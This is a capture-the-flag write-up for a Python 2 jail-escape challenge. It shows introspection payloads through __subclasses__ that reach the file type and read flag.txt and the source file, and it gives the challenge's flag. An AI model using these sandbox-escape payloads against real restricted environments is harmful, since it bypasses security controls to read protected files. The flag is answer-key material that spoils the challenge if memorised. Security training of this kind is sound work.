 # Prison Break

Author: [Ting Hui](https://github.com/ChanTingHui)

## Description

This is a python jail challenge.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Basic Python.

## Sources

```
Someone is in jail. Break him out of Jail.
```

## Exploit
This is a classic jail challenge where some builtins have been blocked, such as import, exec, file, quit, execfile, etc. We can tell the program is running on python2 as when doing a 'print 1+1' without '()' it provides an output. We can find out that 'print dir()' is allowed abnd with that we can do a 
```python
print dir(__builtins__)
```

to see the allowed functions. From that, we can see that __dict__ is allowed. So we can make use of __class__ to find the class, __base__ to find the baseclasses and __subclasses__ to show all classess. with that we executed the commands below.
```python
print dict.__class__.__base__.__subclasses__()
```
</br>
The execution provided an output of numerous types in an array and most importantly, it provided <type 'file'>. Hence, with that we can try print the flag by using the read function.

```python
print ().__class__.__base__.__subclasses__()[40]('flag.txt', 'r').read()
```
</br>
We did not get any flags with the provided flag format. However, we were told that the flag is in the source code. But we do not know which file the source code is located in. However, Python creates a __file__ variable for itself when it is about to import a module and the __file__ is a variable that contains the path to the module that is currently being imported. So we can replace 'flag.txt' with __file__

```python
print ().__class__.__base__.__subclasses__()[40](__file__, 'r').read()
```

<br />

The flag is:

```
wssqrctf{sT3v3_J0b$_fr0m_@ppl3}
```

